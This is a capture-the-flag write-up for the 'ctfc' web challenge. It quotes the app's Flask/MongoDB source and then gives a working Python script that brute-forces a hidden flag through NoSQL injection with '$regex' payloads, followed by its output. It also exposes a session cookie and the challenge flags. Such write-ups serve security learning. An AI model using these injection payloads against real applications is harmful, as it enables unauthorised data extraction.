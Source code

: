 # Web

## ctfc


### Info

![](screenshots/111.png)


![](screenshots/222.png)

##solution:

After analysing the code source we can know that there is another third challenge and it's not appearing in the dashboard:

```python
def createChalls():
	db.challs.insert_one({"_id": "28c8edde3d61a0411511d3b1866f0636","challenge_name": "Crack It","category": "hash","challenge_description": "My friend sent me this random string `cc4d73605e19217bf2269a08d22d8ae2` can you identify what it is? , flag format: CTFC{<password>}","challenge_flag": "CTFC{cryptocat}","points": "500","released": "True"})
	db.challs.insert_one({"_id": "665f644e43731ff9db3d341da5c827e1","challenge_name": "MeoW sixty IV","category": "crypto","challenge_description": "hello everyoneeeeeeeee Q1RGQ3tuMHdfZzBfNF90aDNfcjM0TF9mbDRHfQ==, oops sorry my cat ran into my keyboard, and typed these random characters","challenge_flag": "CTFC{n0w_g0_4_th3_r34L_fl4G}","points": "1000","released": "True"})
	db.challs.insert_one({"_id": "38026ed22fc1a91d92b5d2ef93540f20","challenge_name": "ImPAWSIBLE","category": "web","challenge_description": "well, this challenge is not fully created yet, but we have the flag for it","challenge_flag": os.environ['CHALL_FLAG'],"points": "1500","released": "False"})

@app.route('/')
@check_login
def dashboard():
	challs = []
	for data in db.challs.find():
		del data['challenge_flag']
		challs.append(data)	
	chall_1 = challs[0]
	chall_2 = challs[1]
	return render_template('t_dashboard.html',username=session['user']['username'],chall_1=chall_1,chall_2=chall_2)
```

also from the route /submit_flag we can see how submiting works and we can see the app using mongoDB:

```python
def submit_flag():
	_id = request.json.get('_id')[-1]
	submitted_flag = request.json.get('challenge_flag')
	chall_details = db.challs.find_one(
			{
			"_id": md5(md5(str(_id).encode('utf-8')).hexdigest().encode('utf-8')).hexdigest(),
			"challenge_flag":submitted_flag
			}
	)
	if chall_details == None:
		return "wrong flag!"
	else:
		return "correct flag!"

# wait untill mongodb start then create the challs in db
sleep(10)
createChalls()
```

![](screenshots/333.png)

###NOSqli:
the first thing that comes in my mind after seeing mongoDB is trying noSQLinjection so i tried:

![](screenshots/444.png)

and yeah it worked so we are sure that it's noSQL injection.
so i tried to bruteforce the flag using `$regex` knwowing that the third challenge id is `id:3` and the flag format`INTIGRITI{`:

![](screenshots/555.png)

Now we have to write a script to automate the brute force and here the one i used:

```python
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

url = 'https://ctfc.ctf.intigriti.io/submit_flag'
headers = {
    'Host': 'ctfc.ctf.intigriti.io',
    'Cookie': 'session=eyJ1c2VyIjp7Il9pZCI6ImM0NGZkY2UyMDNiYzRiNjNhZjFhODQwMzI1Y2Y5NDA3IiwidXNlcm5hbWUiOiJ0ZWVzdCJ9fQ.ZV9gtA.QuLDFuq4rwWGeAdNfFV424ivlS4',
    'Content-Length': '59',
    'Sec-Ch-Ua': '"Chromium";v="103", ".Not/A)Brand";v="99"',
    'Sec-Ch-Ua-Mobile': '?0',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36',
    'Sec-Ch-Ua-Platform': '"Linux"',
    'Content-Type': 'application/json',
    'Accept': '*/*',
    'Origin': 'https://ctfc.ctf.intigriti.io',
    'Sec-Fetch-Site': 'same-origin',
    'Sec-Fetch-Mode': 'cors',
    'Sec-Fetch-Dest': 'empty',
    'Referer': 'https://ctfc.ctf.intigriti.io/',
    'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'en-US,en;q=0.9',
}

_id="_id:3"
challenge_flag=""

while True:
    for c in "abcdefghtijklmopqrsuvwyzABCDEFGHIJKLMNOPQRSTUVYWZ0123456789_}":
            payload='{"_id":"%s", "challenge_flag": {"$regex": "^INTIGRITI{%s" }}' % (_id, challenge_flag + c)
            r = requests.post(url,headers=headers,data=payload, verify = False)
            if 'correct flag' in r.text:
                challenge_flag += c
                print("INTIGRITI{"+challenge_flag)
```
and we got it:
```bash
┌──(mo㉿ElMo)-[~/Documents/CTF/web-writeup]
└─$ python3 sol.py
INTIGRITI{h
INTIGRITI{h0
INTIGRITI{h0w
INTIGRITI{h0w_
INTIGRITI{h0w_1
INTIGRITI{h0w_1s
INTIGRITI{h0w_1s_
INTIGRITI{h0w_1s_7
INTIGRITI{h0w_1s_7h
INTIGRITI{h0w_1s_7h4
INTIGRITI{h0w_1s_7h4t
INTIGRITI{h0w_1s_7h4t_
INTIGRITI{h0w_1s_7h4t_P
INTIGRITI{h0w_1s_7h4t_PA
INTIGRITI{h0w_1s_7h4t_PAW
INTIGRITI{h0w_1s_7h4t_PAWS
INTIGRITI{h0w_1s_7h4t_PAWSI
INTIGRITI{h0w_1s_7h4t_PAWSIB
INTIGRITI{h0w_1s_7h4t_PAWSIBL
INTIGRITI{h0w_1s_7h4t_PAWSIBLE
INTIGRITI{h0w_1s_7h4t_PAWSIBLE}
```



